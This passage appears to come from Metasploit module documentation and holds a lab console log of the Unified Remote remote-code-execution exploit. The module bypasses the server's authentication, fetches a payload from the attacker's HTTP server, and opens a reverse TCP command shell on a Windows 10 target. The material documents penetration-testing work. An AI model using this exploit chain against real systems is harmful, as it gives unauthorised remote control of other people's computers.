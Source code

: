 ### Version 3.11.0.2483 on Windows 10, group authentication

```
resource (unified.rb)> use exploits/windows/misc/unified_remote_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (unified.rb)> set rhosts 192.168.2.95
rhosts => 192.168.2.95
resource (unified.rb)> set lhost 192.168.2.199
lhost => 192.168.2.199
resource (unified.rb)> set verbose true
verbose => true
msf6 exploit(windows/misc/unified_remote_rce) > exploit

[*] Started reverse TCP handler on 192.168.2.199:4444 
[*] 192.168.2.95:9512 - Client name set to: android-ergZhp49nDBmGXz8
[*] 192.168.2.95:9512 - Retrieving server config
[*] 192.168.2.95:9512 - anonymous mode enabled, password required, bypassing
[*] 192.168.2.95:9512 - Uploading new server config
[*] 192.168.2.95:9512 - Sleeping 5 seconds for server to restart
[+] 192.168.2.95:9512 - Found account: admin
[+] 192.168.2.95:9512 - Found account: wheres
[*] 192.168.2.95:9512 - Sending handshake part 1
[*] 192.168.2.95:9512 - Sending handshake part 2
[*] 192.168.2.95:9512 - Opening Start Menu
[*] 192.168.2.95:9512 - Opening command prompt
[*] 192.168.2.95:9512 - Typing out payload
[*] 192.168.2.95:9512 - Using URL: http://192.168.2.199:8080/
[*] 192.168.2.95:9512 - Attempting to pull down payload
[*] 192.168.2.95:9512 - Attempting to open payload
[+] 192.168.2.95:9512 - Payload request received, sending 73802 bytes of payload for staging
[+] 192.168.2.95:9512 - Payload request received, sending 73802 bytes of payload for staging
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.2.95
[*] 192.168.2.95:9512 - Reverting security mode
[*] 192.168.2.95:9512 - Uploading new server config
[*] 192.168.2.95:9512 - Sleeping 5 seconds for server to restart
[*] Command shell session 1 opened (192.168.2.199:4444 -> 192.168.2.95:59596) at 2022-09-08 16:50:21 -0400
[*] 192.168.2.95:9512 - Server stopped.
[!] 192.168.2.95:9512 - This exploit may require manual cleanup of 'c:\Windows\Temp\lqVUQTKtxuSD1mm.exe' on the target


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\Users\windows>
```

### Version 3.11.0.2483 on Windows 10, user authentication
